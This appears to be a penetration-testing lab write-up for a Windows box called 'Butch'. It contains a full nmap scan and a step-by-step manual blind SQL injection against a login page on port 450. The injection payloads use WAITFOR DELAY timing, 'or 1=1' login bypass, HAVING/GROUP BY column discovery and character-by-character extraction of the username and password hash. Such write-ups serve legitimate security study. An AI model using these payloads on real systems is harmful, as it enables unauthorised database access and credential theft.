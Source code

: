 #### Mind map

![Butch](https://user-images.githubusercontent.com/8998412/158007932-e61409eb-080e-48b8-b874-5d395cd7d659.png)

#### Enumeration

```
# Nmap 7.92 scan initiated Sun Feb 27 04:50:54 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/xml/_full_tcp_nmap.xml 192.168.184.63
Nmap scan report for 192.168.184.63
Host is up, received user-set (0.30s latency).
Scanned at 2022-02-27 04:50:54 EST for 477s
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
25/tcp   open  smtp          syn-ack ttl 127 Microsoft ESMTP 10.0.17763.1
| smtp-commands: butch Hello [192.168.49.184], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
450/tcp  open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Butch
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=2/27%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=621B4B5B%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=U)
OPS(O1=M54ENW8NNS%O2=M54ENW8NNS%O3=M54ENW8%O4=M54ENW8NNS%O5=M54ENW8NNS%O6=M54ENNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54ENW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-27T09:58:14
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51234/tcp): CLEAN (Timeout)
|   Check 2 (port 45630/tcp): CLEAN (Timeout)
|   Check 3 (port 37138/udp): CLEAN (Timeout)
|   Check 4 (port 14133/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 1s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   295.76 ms 192.168.49.1
2   295.78 ms 192.168.184.63

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 04:58:51 2022 -- 1 IP address (1 host up) scanned in 477.73 seconds

```

I find the website that runs on port 450 has SQL injection vulnerability by using the waiting test.

```SQL
'; WAITFOR DELAY '00:00:10' ; --
```
![image](1)

Attempts to log in using the usernames ```admin``` and ```administrator``` failed.

```SQL
' or 1=1  ; --
```

![image](2)

Because we can't use automatic exploitation tools in the exam, I start doing it manually.

First, we must know the name of the field.

```SQL
' HAVING 1=1 --
```

![image](3)

```SQL
' GROUP BY users.username HAVING 1=1 --
```

![image](4)

```SQL
' GROUP BY users.username, users.password_hash HAVING 1=1 --
```

![image](5)

Now we know that the data table users has two fields username and password_hash.

Check how many data are in the data table users. We can see from the query below that there is only one data.

```SQL
'; IF (SELECT COUNT(*) FROM users) = 1 WAITFOR DELAY '00:00:05' --
```
Finding the username ```butch```.

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 97) WAITFOR DELAY '00:00:05' --
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 98) WAITFOR DELAY '00:00:05' -- and so on
```

Guessing the length of the password by the command below.

```SQL
'; IF (SELECT LEN(password_hash) FROM users) > 10 WAITFOR DELAY '00:00:05' -- and so on
```

Finally, we know that the password length is 64, so it may have been encrypted.

